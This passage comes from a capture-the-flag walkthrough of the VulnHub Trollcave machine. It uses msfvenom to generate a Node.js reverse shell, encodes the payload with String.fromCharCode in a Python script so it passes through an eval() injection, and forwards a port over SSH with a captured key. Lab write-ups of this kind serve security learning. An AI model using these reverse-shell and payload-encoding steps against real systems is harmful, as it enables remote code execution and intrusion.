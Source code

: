 According to [MDN](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval)'s description of `eval()`,

>The argument of the `eval()` function is a string. If the string represents an expression, `eval()` evaluates the expression. If the argument represents one or more JavaScript statements, `eval()` evaluates the statements. Do not call `eval()` to evaluate an arithmetic expression; JavaScript evaluates arithmetic expressions automatically.

Good thing `msfvenom` is able to generate a reverse shell payload for Node.js, but notice `toString()` after `eval()`? We need to make sure `eval()` returns a string so that `toString()` has something to do.

```
# msfvenom -p nodejs/shell_reverse_tcp LHOST=192.168.30.128 LPORT=44444 -o rev.js
# echo '1+1;' >> rev.js  <-- this is to make sure toString() has something to do ;)
```

We also need to ensure that our payload is a string for `eval()`. To do that, we can encode our payload into ordinal numbers and piece them back together with `String.fromCharCode()`.

The following Python code does that.

{% highlight python linenos %}
# cat encode.py
#!/usr/bin/env python

f = open('rev.js', 'r')
encoded = ''
for c in f.read():
    encoded = encoded + ',' + str(ord(c))
print 'eval(String.fromCharCode(%s))' % encoded[1:]
{% endhighlight %}

All that's left to do is to forward our local port `tcp/9999` to the remote port `tcp/8888` so that I can access it from my browser.

```
# ssh -L9999:localhost:8888 -i /root/keys/trollcave rails@192.168.30.130 -f -N
```

![screenshot-22](/assets/images/posts/trollcave-walkthrough/screenshot-22.png)

The final exploit URL looks like this.


[1]: https://www.vulnhub.com/entry/trollcave-12,230/
[2]: https://twitter.com/@davidyat_es
[3]: https://www.vulnhub.com
